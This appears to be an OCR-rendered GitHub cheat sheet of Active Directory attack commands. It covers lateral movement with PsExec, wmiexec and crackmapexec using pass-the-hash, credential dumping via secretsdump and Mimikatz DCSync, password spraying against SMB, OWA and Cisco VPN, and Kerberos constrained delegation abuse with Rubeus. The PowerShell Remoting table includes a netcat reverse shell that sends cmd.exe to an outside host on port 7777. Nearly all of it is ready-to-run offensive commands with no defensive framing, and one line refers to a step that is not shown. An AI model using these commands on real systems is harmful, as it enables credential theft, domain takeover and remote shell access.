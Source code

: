### lateral movement
| for Example |
| -------------|
| PsExec64.exe \\192.168.1.104 -u administrator -p forever cmd |
| psexec \\192.168.122.66 -u Administrator -p 123456Ww ipconfig|
| psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t ipconfig |
| PsExec64.exe \\ninja.corp cmd |
| psexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| wmiexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| crackmapexec 192.168.100.1/24 |
| crackmapexec cme-hosts.txt --shares |
| cme-hosts.txt -u username.txt -p password.txt --shares |
|crackmapexec 192.168.100.10 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --sam            |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --lsa            |
| pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 |
| python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 Administrator@192.168.100.10 #with hash |
| python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -just-dc acmebank.loca/Administrator@192.168.100.10 |



| PowerShell Remoting |
| ------------------- |
|$Username = 'ninja.corp\MeMe' #powershell variable |
|$Password = '123456789aA'|
|$pass= ConvertTo-SecureString -AsPlainText $Password -Force #powershell variable |
|$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass #powershell variable |
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {hostname}|
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {cmd.exe /c nc.exe -v 192.168.1.100 7777 -e cmd.exe}|





### Mimikatz 








|DCSync |
| ------------- |
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|


|  Password Spraying Attack |
| ------------- |
| crackmapexec smb 192.168.1.1  -d ninja.corp -u MeME -P /usr/share/wordlists/rockyou.txt|
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| crackmapexec smb 192.168.1.1 -u MeMe -H NTHASH |
|crackmapexec smb 192.168.1.1 -u '' -p '' #NULL Sessions|
|spray.sh -smb 192.168.1.1 users.txt /usr/share/wordlists/rockyou.txt  1 35 ninja.corp|
|spray.sh -owa 192.168.1.1 users.txt  /usr/share/wordlists/rockyou.txt   1 35 Request.body #OWA|
|spray.sh -ciso 192.168.1.1 usernames.txt /usr/share/wordlists/rockyou.txt 1 35 #CISCO Web VPN|
|./atomizer.py owa contoso.com 'Fall2018' emails.txt|


Then use `mimikatz` to load the ticket.

### Kerberos Constrained Delegation
```powershell

mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
Get-DomainComputer -TrustedToAuth | select -exp dnshostname #Identify
Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo # Figure out exposed servie
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
rubeus s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:cifs/srv01.domain.com /ptt #with rubeus
 
```

